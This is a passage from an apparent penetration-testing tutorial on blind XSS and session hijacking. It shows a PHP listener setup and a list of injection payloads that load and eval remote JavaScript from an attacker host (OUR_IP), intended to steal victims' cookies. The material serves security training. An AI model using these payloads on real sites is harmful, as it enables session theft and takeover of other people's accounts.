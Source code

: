 Now that we have our index.php file ready, we can start a PHP listening server, which we can use instead of the basic netcat listener we used earlier:

```bash
$ mkdir /tmp/tmpserver
$ cd /tmp/tmpserver
$ vi index.php #at this step we wrote our index.php file
$ sudo php -S 0.0.0.0:80
```

# Session Hijacking
Modern web applications utilize cookies to maintain a user's session throughout different browsing sessions. This enables the user to only log in once and keep their logged-in session alive even if they visit the same website at another time or date. However, if a malicious user obtains the cookie data from the victim's browser, they may be able to gain logged-in access with the victim's user without knowing their credentials.

With the ability to execute JavaScript code on the victim's browser, we may be able to collect their cookies and send them to our server to hijack their logged-in session by performing a Session Hijacking (aka Cookie Stealing) attack.

## Blind XSS Detection
We usually start XSS attacks by trying to discover if and where an XSS vulnerability exists. A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to.

Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:

- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

```js
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

### Loading a Remote Script
In HTML, we can write JavaScript code within the <script> tags, but we can also include a remote script by providing its URL, as follows:
```html
<script src="http://OUR_IP/script.js"></script>
```

So, we can use this to execute a remote JavaScript file that is served on our VM. We can change the requested script name from script.js to the name of the field we are injecting in, such that when we get the request in our VM, we can identify the vulnerable input field that executed the script.
